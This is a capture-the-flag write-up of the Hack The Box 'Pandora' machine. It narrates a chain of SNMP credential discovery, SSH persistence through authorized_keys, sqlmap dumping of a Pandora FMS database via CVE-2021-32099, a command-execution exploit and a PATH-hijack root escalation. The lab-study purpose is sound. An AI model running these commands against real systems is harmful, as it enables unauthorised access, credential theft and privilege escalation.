 ![Pandora](https://labs.hackthebox.com/storage/avatars/6ac0e76002774bbfac92b0dbc86cb6af.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [TheCyberGeek](https://app.hackthebox.com/users/114053) & [dmw0ng](https://app.hackthebox.com/users/610173)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---








- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.136 -oG scan
	/opt/extractports scan
	nmap -p22,80 -Pn -sCV 10.10.11.136 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/ebd202c3-4af1-4ee1-868c-d84d744324f7)

- I found the domain `panda.htb` and I add it to the file in the `hosts` file
- After accessing the website and browsing through it, I don't find anything relevant, so I decide to enumerate the ports using UDP.
- As a first step, I use brute-force to discover the community strings.
	
	```python
	onesixtyone -c /usr/share/wordlists/seclists/Discovery/SNMP/snmp.txt 10.10.11.136
	```

- Having the community strings, I start to list the content and I find some credentials

	```python
	snmpwalk -v2c -c public 10.10.11.136
	```
	
	![image](https://github.com/user-attachments/assets/4c65a859-a23c-48f5-be0c-eba7d9749371)

- I validate the credentials found by ssh and get access to the system.

	```python
	ssh daniel@10.10.11.136
	```
	
	![image](https://github.com/user-attachments/assets/0bb34550-3755-4d1d-b259-87e72eb6b6e8)

- For a greater comfort at the time of connecting to the system, I generate a key that I add to the authorized_keys file to connect by ssh.
	
	```python
	ssh-keygen -f key
	cat key.pub
	echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /home/daniel/.ssh/authorized_keys
	ssh -i key daniel@10.10.11.136
	```

- I see that the first flag can be read by user matt.
- While searching the system for ways to perform a lateral move to the user matt, I find a website that I could not access previously. Using ssh I share port 80 to my machine to view it.

  ![image](https://github.com/user-attachments/assets/1ca23016-eab4-4d2e-b3f9-202a16c554db)

- After pointing in the hosts file `pandora.panda.htb` to my ip address, I get to see a CMS v7.0NG.742_FIX_PERL2020. Searching for information about it, I find several vulnerabilities.

	```python
	ssh -L 8089:localhost:80 daniel@10.10.11.136
	```
	![image](https://github.com/user-attachments/assets/6995be0d-3ce5-4d17-87d1-df6ce013a513)
	
- The first is CVE-2021-32099 which allows SQL injection. Using this vulnerability I can read the users that are registered in the database.

	```python
	sqlmap -u 'http://pandora.panda.htb:8089/pandora_console/include/chart_generator.php?session_id=*' --batch -D pandora -T tusuario -C email,id_user,is_admin.fullname,password --dump
	```
	
	![image](https://github.com/user-attachments/assets/0ad1a217-7efd-4a0d-b451-a21b79639a10)

- I am unable to break the password. I continue enumerating the different tables and I find one that contains the active sessions.
- All of them belong to user daniel and only one to user matt. Using the latter and together with another of the existing CMS vulnerabilities (CVE-2020-5844) allows me to execute commands on the system as the user matt. I use this [repository](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated) to get an interactive shell
	
	![image](https://github.com/user-attachments/assets/864fb986-53a1-41d2-93b7-d2c6a161b629)
	
	```python
	python3 sqlpwn.py -t pandora.panda.htb:8089 
	```

- Having the terminal as the user matt I manage to read the first flag of the system.
- Then it performs a treatment of the tty because with the current one it does not allow me to perform some commands like `sudo -l`. I added my ssh key following the same steps I described previously.

	```bash
	script /dev/null -c bash
	Ctrl + z
	stty raw -echo; fg
	reset xterm
	export SHELL=bash
	export TERM=xterm
	stty rows 50 columns 116
	```

- For privilege escalation I start by listing the binaries with SUID permissions and find one that is not common. `/usr/bin/pandora_backup`

	![image](https://github.com/user-attachments/assets/16f66561-8356-4b08-adcf-81d2016b9fd6)

- I copy the binary to my machine and look at the strings it has. I notice that it executes the tar command using a relative path so we can perform an attack by spoofing the binary to execute a custom one.
	
	```python
	strings pandora_backup
	```
	
	![image](https://github.com/user-attachments/assets/02b1353e-f304-48bb-b18f-0974b764a57e)
	
- I create a binary containing the command we want to execute, modify the PATH variable to point first to our directory and execute the pandora_backup binary. This way we can become root and we can read the second flag of the system.

	![image](https://github.com/user-attachments/assets/802b129a-4a83-4ecb-8711-de5c9c811b16)
